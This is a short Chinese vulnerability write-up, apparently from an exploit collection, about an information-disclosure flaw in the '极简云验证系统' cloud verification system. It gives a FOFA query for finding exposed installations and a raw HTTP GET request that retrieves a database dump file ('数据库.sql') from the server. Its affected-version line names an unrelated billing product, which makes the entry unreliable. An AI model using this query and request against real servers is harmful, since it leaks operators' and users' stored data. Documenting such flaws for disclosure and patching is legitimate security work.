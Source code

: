 # 极简云验证系统存在敏感信息泄露漏洞

# 一、漏洞简介
  极简云验证系统是一种简洁高效的身份验证方案，通过使用云端技术，实现用户身份验证和访问控制。用户只需输入手机号或邮箱等基本信息，系统即可发送验证码，验证过程快速便捷。此系统具有高度可扩展性和安全性，可适用于各种应用场景，如登录、支付等。同时，它还支持多种验证方式，如短信验证码、邮箱验证码等，为用户提供了灵活多样的选择。此系统某接口存在信息泄露。

# 二、影响版本
+  深澜计费管理系统

# 三、资产测绘
+ fofa`body="/js/lib/slimscroll.js"`
+ 特征

![1716703161984-d5a483f8-056b-476a-9a36-357d4813a920.png](./img/D238bvh7ZMl7LoVs/1716703161984-d5a483f8-056b-476a-9a36-357d4813a920-296981.png)

# 四、漏洞复现
```plain
GET /%E6%95%B0%E6%8D%AE%E5%BA%93.sql HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

```

![1716703107785-ee5492bd-bc33-43f1-a1a8-dfbb4f5707fc.png](./img/D238bvh7ZMl7LoVs/1716703107785-ee5492bd-bc33-43f1-a1a8-dfbb4f5707fc-247991.png)



> 更新: 2024-06-01 11:16:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qbws9m6nyom3i35t>